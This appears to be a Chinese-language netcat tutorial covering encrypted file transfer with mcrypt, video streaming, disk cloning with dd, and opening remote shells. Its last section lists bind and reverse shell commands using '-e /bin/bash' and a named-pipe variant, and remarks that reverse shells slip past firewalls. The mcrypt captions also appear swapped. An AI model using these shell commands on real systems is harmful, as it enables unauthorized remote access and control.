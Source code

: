 加密传输

如果你担心你在网络上发送数据的安全，你可以在发送你的数据之前用如mcrypt的工具加密。
Server
$nc localhost 20000 | mcrypt –flush –bare -F -q -d -m ecb > file.txt

使用mcrypt工具加密数据。
Client
$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 20000

使用mcrypt工具解密数据。
以上两个命令会提示需要密码，确保两端使用相同的密码。
这里我们是使用mcrypt用来加密，使用其它任意加密工具都可以。

流视频

虽然不是生成流视频的最好方法，但如果服务器上没有特定的工具，使用netcat，我们仍然有希望做成这件事。
Server
$cat video.avi | nc -l 20000
这里我们只是从一个视频文件中读入并重定向输出到netcat客户端

Client
$nc 192.168.1.1 20000 | mplayer -vo x11 -cache 3000 -
这里我们从socket中读入数据并重定向到mplayer。

克隆硬盘或分区: 非常强大 !!!

    由dd获得硬盘或分区的数据，然后传输即可
    克隆硬盘或分区的操作，不应在已经mount的的系统上进行
    克隆: server1 -> server2

#server2, 先监听
[root@server2 ~]# nc -l -p 1234 | dd of=/dev/sda

#server1, 执行传输, 即可完成从server1克隆sda硬盘到server2的任务
[root@server1 ~]# dd if=/dev/sda | nc 192.168.200.27 1234

打开一个shell

    假设你的netcat支持 -c -e 参数 V6.40

Server
$nc -l 20000 -e /bin/bash -i

Client
$nc 192.168.1.1 20000
这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

    正反连接
        目的: 本地机登陆远程机, 并能 本地命令行输入命令, 传到远程, 远程执行命令, 传回本地, 最终显示到命令行
        启动顺序: 都是先启动 server 端
        总结：这个情况是最常用的内网端口转发功能，这样反弹shell即可执行命令。反向连接就是常用的反弹shell到本地，因为由主机主动发送的情况本地防火墙等设备一般不会去拦截，而正向连接到远程主机的某端口常常被拦截

action	本地	远程
IP	192.168.8.222	192.168.8.80
正向连接_-e	nc -vv 192.168.8.80 8888	nc -vv 192.168.8.80 -lk 8888 -e /bin/bash
反向连接_-e	nc -vv -kl 8888	nc -vv -e /bin/bash 192.168.8.222 8888
正向连接_无-e	nc -vv 192.168.8.80 8888	mknod backpipe p; nc -vv 192.168.8.80 -lk 8888 0<backpipe | /bin/bash 1>backpipe 2>backpipe
反向连接_无-e	nc -vvv -kl 8888	mknod backpipe p; nc -vvv 192.168.8.222 8888 0<backpipe | /bin/bash 1>backpipe 2>backpipe
远程执行自动回传	命令1: nc -vv -l 8889 > aaa.txt& 命令2: echo "ls | nc 192.168.8.222 8889 " | nc -vv 192.168.8.80 8888	nc -vv 192.168.8.80 -lk 8888 -e /bin/bash
